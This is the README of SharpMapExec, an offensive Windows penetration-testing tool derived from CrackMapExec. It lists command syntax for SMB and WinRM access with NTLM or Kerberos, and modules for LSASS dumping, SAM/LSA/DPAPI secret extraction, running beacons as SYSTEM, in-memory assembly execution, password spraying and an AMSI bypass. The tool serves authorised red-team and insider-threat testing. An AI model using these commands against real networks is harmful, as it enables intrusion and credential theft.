





# SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.


Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.


You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, it tool will create threads and use [SharpKatz](https://github.com/b4rtik/SharpKatz) to run SetThreadToken if an NTLM hash is specified, and if a password is specified, it will go with ordinary c# impersonation.

```
SharpMapExec.exe
  usage:

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available Smb modules
          /m:shares

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump Lsass Process)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
          /m:download /path:C:\file /destination:file (Download File from Host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg
```

### Smb

Can be used to scan for admin access and accessible Smb shares.

Modules;
````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

Modules;

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Example usage

For easy or mass in-memory execution of C# assemblies



Kerberos password spraying then scanning for local admin access



This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.



Discover local admin password reuse with an NT hash.



Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder



And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```


### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)                [@Harmj0y](https://twitter.com/harmj0y)

* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)        [@Harmj0y](https://twitter.com/harmj0y)

* [SharpKatz](https://github.com/b4rtik/SharpKatz)             [@b4rtik](https://twitter.com/b4rtik)

* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)

* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)

* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
  
